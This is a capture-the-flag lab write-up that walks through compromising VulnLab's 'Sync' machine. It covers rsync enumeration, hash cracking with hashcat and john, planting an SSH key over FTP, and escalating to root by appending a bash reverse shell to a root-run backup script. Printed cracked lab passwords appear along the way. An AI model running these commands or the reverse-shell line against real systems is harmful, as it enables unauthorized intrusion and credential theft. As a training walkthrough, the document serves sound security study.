

# Sync

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sync** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 21,22,80,873 --min-rate=1000 10.10.64.150
```



Now let’s see the website running on port 80


As we see it’s a simple login page

Now let’s go to the rsync service and see if there is any shares

```bash
rsync 10.10.64.150::
```


and we have a httpd so let’s download it’s content

```bash
rsync 10.10.64.150::"httpd/www/dashboard.php" .
rsync 10.10.64.150::"httpd/www/index.php" . 
rsync 10.10.64.150::"httpd/www/logout.php" .
```


now let’s download the site database

```bash
rsync 10.10.64.150::"httpd/db/site.db" .
```


now let’s review the code!


> First we will notice that the code is vulnerable to sql injection but the most interesting thing is that the hash is calculated by concatenating the $secure ,$username and $password variables
> 

So let’s go and extract the passwords from the database we got

```bash
 SELECT * FROM users;
```


> Now we have everything we need the username and the secure
username: admin
hash: 7658a2741c9df3a97c819584db6e6b3c
username: triss
hash: a0de4d7f81676c3ea9eabcadfd2536f6
secure: 6c4972f3717a5e881e282ad3105de01e
> 

now let’s try to crack the password

```bash
cat crackme.txt
```


now let’s use hashcat to crack it

```bash
hashcat -m 20 crackme.txt /usr/share/wordlists/rockyou.txt
```


and we got the password for the user triss so let’s reuse it in the ftp

```bash
username: triss
password: gerald
```


now let’s generate a SSH keys

```bash
ssh-keygen
```


now copy the public key in your folder and name it authorized_keys

```bash
cp ~/.ssh/id_ed25519.pub authorized_keys
```


now in the ftp let’s make a .ssh directory

```bash
mkdir .ssh
```


now navigate to it and upload the authorized_keys file

```bash
put authorized_keys
```


Now let’s try to SSH  to the machine

```bash
ssh triss@10.10.64.150
```


and we logged in

Now let’s navigate to the /backup directory


and as we see alot of zip files is created so let’s download one of them

```bash
unzip 1743232081.zip 
```


notice that there is a backup for the passwd and shadow file so let’s abuse it by making a cracking there hash

```bash
unshadow passwd shadow > crackme.txt
```


Now let’s go and crack it

```bash
john crackme.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```


> Notice that we got the passwords for all users
username: sa
password: sakura
username: jennifer
password: gerald
> 

Now let’s switch to the sa user

```bash
su sa
```


Now let’s go and see if there is any hidden script running in the background

```bash
./pspy64
```


> Notice that there is a script running as root
> 

let’s go and see our permission on this file

```bash
ls -las /usr/local/bin/backup.sh
```


Since we are the user sa we can edit the script and add a reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" >> /usr/local/bin/backup.sh
```


as we see the reverse shell was added so let’s open a listener on our machine

```bash
nc -lvnp 1337
```


now let’s wait for the reverse shell


and we got root so let’s go and see the root flag

```bash
cd /root;ls -las
```


Amazing we got root flag 🥳


That’s it for the **Sync** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX